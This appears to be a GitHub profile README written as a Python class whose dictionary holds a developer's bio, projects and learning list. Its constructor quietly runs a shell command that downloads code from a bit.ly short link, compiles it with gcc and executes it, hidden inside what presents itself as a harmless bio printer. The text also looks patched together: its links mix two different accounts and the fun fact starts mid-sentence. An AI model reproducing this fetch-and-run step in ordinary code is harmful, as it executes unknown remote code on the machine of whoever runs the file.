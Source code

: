 class PROxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🔭 I’m currently working on' : {'DarkSpider': 'https://github.com/PROxZIMA/DarkSpider',
                                         'Prism'     : 'https://github.com/PROxZIMA/prism',
                                         'Sweet-Pop' : 'https://github.com/PROxZIMA/Sweet-Pop'},
      '- 🌱 I’m currently learning'   : ['php', 'C++', 'Python', 'Full Stack Development', 'bootstrap','javascript','laravel'],
      '- 💬 Ask me anything'          : '¯\_(ツ)_/¯',
      '- 👨‍💻 My projects available at' : 'https://github.com/Mohamadkhodarahmi?tab=repositories',
      '- ⚡ Fun fact'                 : ('years away from the Sun in the southern constellation of Centaurus.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
